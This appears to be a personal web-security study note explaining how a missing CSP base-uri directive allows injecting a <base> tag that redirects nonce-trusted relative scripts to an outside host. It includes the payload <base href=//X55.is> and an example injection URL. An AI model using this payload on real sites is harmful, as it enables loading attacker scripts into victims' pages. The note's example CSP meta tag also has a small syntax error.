 A [dangling markup injection](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FVulnerabilities%20%26%20Attacks%2FCross-Site%20Scripting%2FDangling%20Markup%20Injection%2FIntroduction) can be performed if the `base-uri` directive is absent in the defined CSP.

Moreover, if the page is loading a script using a relative path (i.e `<script src="/js/app.js" nonce="abcd-1234"/>`) and is using a `nonce`, attackers can abuse the `base` tag to make it load a script from a server that they control.

In order for this to work, the CSP tag or header must contain the following:
```html
<meta http-equiv="Content-Security-Policy" content="script src 'nonce-abcd1234'">
```
```http
HTTP/1.1 200 OK
...
Content-Security-Policy: script-src 'nonce-abcd1234';
```

An attacker can be used the following payload `<base href=//X55.is>` as follows:
```txt
http://target-website.com/?name=guest<base href=//X55.is>
```
>Note: If the vulnerable page is loaded with HTTPS, make sure to use HTTPS URL in the `base` tag.

Because of the payload `<base href=//X55.is>`, the script loading `/js/app.js` becomes `//x55.is/js/app.js`.